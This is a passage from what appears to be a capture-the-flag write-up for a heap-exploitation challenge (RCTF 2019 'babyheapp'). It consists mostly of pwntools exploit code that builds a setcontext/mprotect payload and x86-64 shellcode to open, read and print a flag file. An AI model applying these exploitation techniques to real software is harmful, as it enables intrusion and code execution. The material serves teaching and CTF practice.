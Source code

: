 ```python
mov rsi,0x1000
mov dx,0x7
mov r10,0x22
syscall
mov rsi,rax
xchg r9,rax
mov rdi,rax
syscall
push 0x1234000
ret
'''
edit(10,asm(top).ljust(0x10,'\x00')+p64(base+0x47b75)+p64(magic-0x18)+asm(shellcode))
#payload for setcontext
payload=p64(0x7ffff7b15e89-0x7ffff7a3b000+base)+p64(0x7ffff7a7d4d5-0x7ffff7a3b000+base)+p64(0)
payload=payload.ljust(0x28,'\x00')+p64(0xfffffffffffffff)+p64(0)
payload=payload.ljust(0x68,'\x00')+p64(magic&0xffffffffffff000)+p64(0x1000)
payload=payload.ljust(0x88,'\xff')+p64(0x7)
payload=payload.ljust(0xa0,'\x00')+p64(magic)+p64(libc.sym['mprotect'])
edit(12,payload)
free(12)
```

* open+read+write
```python
sh='''
mov rsp,0x1234400
mov rax,2
mov rdi,0x67616c662f2e
push rdi
mov rdi,rsp
mov rsi,0
mov rdx,0
syscall
mov rdi,rax
mov rax,0
mov rsi,0x1234500
mov rdx,0x100
syscall
mov rax,1
mov rdi,1
mov rsi,0x1234500
mov rdx,0x100
syscall
'''
sh=asm(sh)
p.send(sh)
```

..I try to shrink the length of my shellcode,So that I can finish my exp in chunk_12.emmm, but I just wasted a lot of time and failed for unknow reason....
so I need more space to write my shellcode to locate the problem ...but I ... get the flag ...


[1]: https://n132.github.io/2019/05/07/2019-05-07-House-of-Storm/
[2]: https://n132.github.io/2019/05/10/2019-05-08-Startctf2019-Heap-master/#setcontext()
[3]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/babyheapp